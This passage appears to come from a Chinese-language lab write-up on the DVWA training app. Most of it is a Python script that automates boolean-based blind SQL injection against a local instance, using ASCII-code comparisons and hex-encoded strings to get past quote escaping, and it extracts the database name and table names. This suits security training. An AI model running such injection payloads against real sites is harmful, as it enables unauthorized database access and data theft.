 还是写脚本来注入： 这里直接使用`substr()`跑不出结果，所以尝试使用ascii码来绕过

另外，由于引号等被转义了，所以由引号包裹的字符串也不能出现在查询语句中，这里可以把原来的字符串换成十六进制的形式，例如`users`换成`0x7573657273`

```python
import requests
import string
chars = string.printable[:]  # 返回所有可打印的字母，数字，符号的集合
# print(chars)
base_url = "http://127.0.0.1:8090/dvwa/vulnerabilities/sqli_blind/"
session = requests.session()
cookies = {'security': 'medium', 'PHPSESSID': '33gvmgr5a5lhjau9n9gq044oqp'}

# 库名长度
def get_dbname_length():
    for dbname_length in range(1, 30):
        post_data = {
            'id': "1 and length(database())={}#".format(dbname_length),
            'Submit': "Submit"
        }
        response = session.post(base_url, cookies=cookies, data=post_data).text
        if "User ID exists in the database" in response:
            print("dbname_length:{}".format(dbname_length))
            break
    # return dbname_length
# get_dbname_length()

# 库名
def get_database_name(dbname_length):
    dbname = ''
    for i in range(1, dbname_length + 1):
        for c in chars:
            post_data = {
                'id': "1 and ascii(substr(database(),{},1))={} #".format(i, ord(c)),
                'Submit': "Submit"
            }
            response = session.post(base_url, cookies=cookies, data=post_data).text
            if "User ID exists in the database" in response:
                print(c)
                dbname = dbname + str(c)
                break
    print("dbname:{}".format(dbname))
    # return dbname
# get_database_name(4)


# 库中的所有表名
def get_tables_name(db_name):
    tables_name = ''
    for i in range(1, 30):
        for c in chars:
            # url = base_url + "id=1' and substr((select group_concat(table_name) from information_schema.tables where table_schema='{}'),{},1) = '{}'%23&Submit=Submit#".format(db_name, i, str(c))
            # print(url)
            # response = session.get(url, cookies=cookies).text
            post_data = {
                'id': "1 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema= database()),{},1))={} #".format(i, ord(c)),
                'Submit': "Submit"
            }
            response = session.post(base_url, cookies=cookies, data=post_data).text
            if "User ID exists in the database" in response:
                print(c)
                tables_name = tables_name + str(c)
                break
```